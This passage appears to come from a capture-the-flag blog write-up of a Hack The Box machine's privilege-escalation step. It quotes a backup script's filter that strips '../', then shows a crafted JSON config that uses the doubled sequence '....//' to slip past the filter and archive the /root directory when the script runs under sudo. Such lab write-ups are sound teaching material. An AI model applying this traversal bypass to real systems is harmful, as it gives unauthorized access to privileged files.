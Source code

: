 ```bash frame="terminal" title="bash"
allowed_paths=("/var/" "/home/")
updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")
```

Fine, but what is that json file looks like? i have no idea.....likely, i found an example file located in my dir, so i read it and it looks like this:
```json frame="terminal" title="json"
{
	"destination": "/home/martin/backups/",
	"multiprocessing": true,
	"verbose_log": false,
	"directories_to_archive": [
		"/home/app-production/app"
	],

	"exclude": [
		".*"
	]
}
```

Likely, we need to change that `directories_to_archive` parameter value to the `/root` directory so the script can gets it's files and compress it. To achieve that, we need path traversal. Since there is a filter for it that filters `../` we can easily bypass that by doubling the sequence `....//` so it will remeve one and leave one.

The json file created will look like the following:
```json frame="terminal" title="json"
{
	"destination": "/home/martin/backups/",
	"multiprocessing": true,
	"verbose_log": false,
	"directories_to_archive": [
		"/home/....//root/"
	],

	"exclude": [
		".*"
	]
}
```
You can then run the script on your file: `sudo /usr/bin/backy.sh testing.json`.

<figure>
  <img src="https://cdn.jsdelivr.net/gh/Macabely/macabely.github.io@master/src/assets/blog/htb-code/13.png" alt="Second Flag">
  <figcaption style="text-align: center;"> Root Flag </figcaption>
</figure>